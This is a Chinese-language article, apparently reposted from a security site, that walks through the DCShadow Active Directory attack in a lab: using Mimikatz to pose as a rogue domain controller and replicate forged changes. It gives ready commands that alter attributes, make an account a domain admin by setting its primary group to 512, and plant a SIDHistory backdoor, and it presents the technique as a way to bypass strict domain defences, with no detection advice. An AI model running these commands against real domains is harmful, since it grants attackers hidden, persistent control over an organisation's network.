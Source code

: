 > 原文链接: https://www.anquanke.com//post/id/146551 


# 域渗透：DCShadow攻击与利用


                                阅读量   
                                **163607**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t01c26353fe96d9f99f.jpg)](https://p1.ssl.qhimg.com/t01c26353fe96d9f99f.jpg)



## 一、原理

我们知道可以利用Mimikatz远程从DC中复制数据，即Dcsync; 类似的dcshadow可以伪装成DC，让正常DC通过伪造的DC中复制数据。<br>[![](https://p4.ssl.qhimg.com/t01111bdfdba598acc8.png)](https://p4.ssl.qhimg.com/t01111bdfdba598acc8.png)<br>
步骤<br>
1、通过dcshadow更改配置架构和注册SPN值，将我们的服务器注册为Active Directory中的DC<br>
2、在我们伪造的DC上更改数据，并利用域复制将数据同步到正常DC上。<br>
相关API:DSBind、DSR*等<br>[https://msdn.microsoft.com/en-us/library/ms675931(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/ms675931(v=vs.85).aspx)

从原理中我们可以认识到两点：<br>
1、需要具备域管权限或域控本地管理权限，注册spn值，写权限等<br>
2、除了dc之间的连接通信，默认情况下不会记录事件日志



## 二、利用条件

测试环境：dc机器2008r2 x64、伪装机器：win7 x64<br>
准备条件：（两个窗口）<br>
1、win7 system权限 (1号窗口)，可以利用psexec -s cmd调system会话，也可以用mimikatz运行驱动模式，确保所有线程都运行在system上<br>[![](https://p3.ssl.qhimg.com/t013ce15ea573a44b90.png)](https://p3.ssl.qhimg.com/t013ce15ea573a44b90.png)

2、win7 域管权限 （2号窗口）<br>
在win7 中利用psexec 调用cmd即可：<br>[![](https://p4.ssl.qhimg.com/t01540180d6410ab57c.png)](https://p4.ssl.qhimg.com/t01540180d6410ab57c.png)

## 

## 三、利用方式

1、更改属性描述值<br>
1号窗口执行数据更改与监听（后同）：<br>`lsadump::dcshadow /object:CN=dc,CN=Users,DC=seven,DC=com /attribute:description /value:”anquanke-test2018!!”`<br>[![](https://p3.ssl.qhimg.com/t019f507363191dd4ee.png)](https://p3.ssl.qhimg.com/t019f507363191dd4ee.png)<br>
2号窗口执行域复制（后同）：<br>`lsadump::dcshadow /push`<br>[![](https://p2.ssl.qhimg.com/t014299c1ee32e871f8.png)](https://p2.ssl.qhimg.com/t014299c1ee32e871f8.png)<br>
在dc2008上查看结果：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a93b3f63b603f3c8.png)

2、添加域管<br>`lsadump::dcshadow /object:CN=dc,CN=Users,DC=seven,DC=com /attribute:primarygroupid/value:512`<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0138092af81399a4ad.png)<br>
执行域复制后成功添加域管：<br>[![](https://p2.ssl.qhimg.com/t01e08c9ec44027d4f2.png)](https://p2.ssl.qhimg.com/t01e08c9ec44027d4f2.png)

3、添加sidhistory 后门<br>
查看域管administrator sid：<br>[![](https://p3.ssl.qhimg.com/t0190d7a944080a34ef.png)](https://p3.ssl.qhimg.com/t0190d7a944080a34ef.png)<br>`lsadump::dcshadow /object:CN=dc,CN=Users,DC=seven,DC=com /attribute:sidhistory /value:S-1-5-21-1900941692-2128706383-2830697502-500`<br>[![](https://p5.ssl.qhimg.com/t016f17f77d69422619.png)](https://p5.ssl.qhimg.com/t016f17f77d69422619.png)<br>
使用dc用户建立net use 链接后可成功访问域控：<br>[![](https://p0.ssl.qhimg.com/t012267bff7ebfca00b.png)](https://p0.ssl.qhimg.com/t012267bff7ebfca00b.png)

## 

## 四、总结

Dcshadow 的利用我们可以做很多事情，包括ldap用户的修改，添加后门（sidhistory后门， AdminSDHolder后门，acl后门等等），在碰到域防护较为严格的时候，往往能起到很好的bypass的效果。
